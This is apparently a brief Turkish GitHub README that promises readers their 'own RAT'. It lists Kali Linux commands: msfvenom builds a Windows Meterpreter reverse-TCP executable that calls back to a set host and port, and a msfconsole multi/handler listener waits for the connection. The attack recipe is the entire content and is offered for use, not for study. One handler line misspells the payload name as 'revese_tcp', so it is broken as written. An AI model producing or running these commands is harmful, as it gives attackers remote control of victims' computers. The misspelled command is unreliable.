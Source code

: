# Kali Linux RAT Kodları
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/revese_tcp
set LHOST makineipsi
set LPORT 4444
run
